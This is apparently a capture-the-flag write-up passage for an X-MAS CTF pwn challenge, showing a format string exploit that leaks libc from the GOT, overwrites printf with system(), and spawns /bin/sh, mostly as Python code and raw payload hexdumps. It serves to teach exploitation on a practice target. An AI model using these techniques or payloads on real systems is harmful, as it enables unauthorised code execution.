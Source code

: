 I started by determining the libc version with the [dev branch of pwnscripts](https://github.com/152334H/pwnscripts/tree/dev) + [libc-database](https://github.com/niklasb/libc-database):
```python
context.libc_database = 'libc-database'
GOT_FUNCS = ['puts','setvbuf']
addr_bytes = fsb.leak.dereference(printf, offset, [context.binary.got[f] for f in GOT_FUNCS])
libc_addrs = dict(zip(GOT_FUNCS,map(lambda b: unpack_bytes(b,6), addr_bytes)))
context.libc = context.libc_database.libc_find(libc_addrs)
```
This part of the code runs on a second remote connection, and doesn't affect the previous connected `remote()`.
```python
[+] Opening connection to challs.xmas.htsp.ro on port 14712: Done
[DEBUG] Sent 0xe bytes:
    b'GumaTurbo123!\n'
[DEBUG] Received 0x21 bytes:
    b'Access granted! Filters disabled!'
[DEBUG] Received 0x16 bytes:
    b'\n'
    b'Check out port 14712\n'
[DEBUG] Sent 0x29 bytes:
    00000000  5e 5e 25 39  24 73 7c 7c  25 31 30 24  73 24 24 00  │^^%9│$s||│%10$│s$$·│
    00000010  19 19 19 19  19 19 19 19  18 40 40 00  00 00 00 00  │····│····│·@@·│····│
    00000020  38 40 40 00  00 00 00 00  0a                        │8@@·│····│·│
    00000029
[+] Receiving all data: Done (18B)
[DEBUG] Received 0x12 bytes:
    00000000  5e 5e a0 1a  2c be 2c 7f  7c 7c d0 23  2c be 2c 7f  │^^··│,·,·│||·#│,·,·│
    00000010  24 24                                               │$$│
    00000012
[*] Closed connection to challs.xmas.htsp.ro port 14712
[*] found libc! id: libc6_2.27-3ubuntu1.3_amd64
```
I could've probably guessed that libc id from other challenges, but whatever, I have it now.

On the actual original `remote()`, one `cycle()` is used to leak libc from the GOT, and another is used to overwrite `printf()` with libc `system()` at the GOT. Once that's done, the next cycle will run `system()` on whatever the input format string is, which I'll set to be `"/bin/sh"`.
```python
puts, = fsb.leak.dereference(lambda s: cycle(s,b'$$'), offset, [context.binary.got['puts']])
context.libc.calc_base('puts', unpack_bytes(puts,6))
cycle(fmtstr_payload(offset, {context.binary.got['printf']: context.libc.symbols['system']}),b'a')
cycle('/bin/sh\0')

r.interactive()
```
```python
[DEBUG] Sent 0x1a bytes:
    00000000  5e 5e 25 38  24 73 24 24  00 19 19 19  19 19 19 19  │^^%8│$s$$│····│····│
    00000010  18 40 40 00  00 00 00 00  0a 0a                     │·@@·│····│··│
    0000001a
[DEBUG] Received 0xa bytes:
    00000000  5e 5e a0 6a  2a 40 a1 7f  24 24                     │^^·j│*@··│$$│
    0000000a
[DEBUG] Sent 0xe bytes:
    b'GumaTurbo123!\n'
[DEBUG] Received 0x21 bytes:
    b'Access granted! Filters disabled!'
[DEBUG] Received 0x16 bytes:
    b'\n'
    b'Check out port 14712\n'
[DEBUG] Sent 0x79 bytes:
    00000000  25 38 30 63  25 31 35 24  6c 6c 6e 25  35 63 25 31  │%80c│%15$│lln%│5c%1│
    00000010  36 24 68 68  6e 25 34 32  63 25 31 37  24 68 68 6e  │6$hh│n%42│c%17│$hhn│
    00000020  25 33 34 63  25 31 38 24  68 68 6e 25  31 33 34 63  │%34c│%18$│hhn%│134c│
```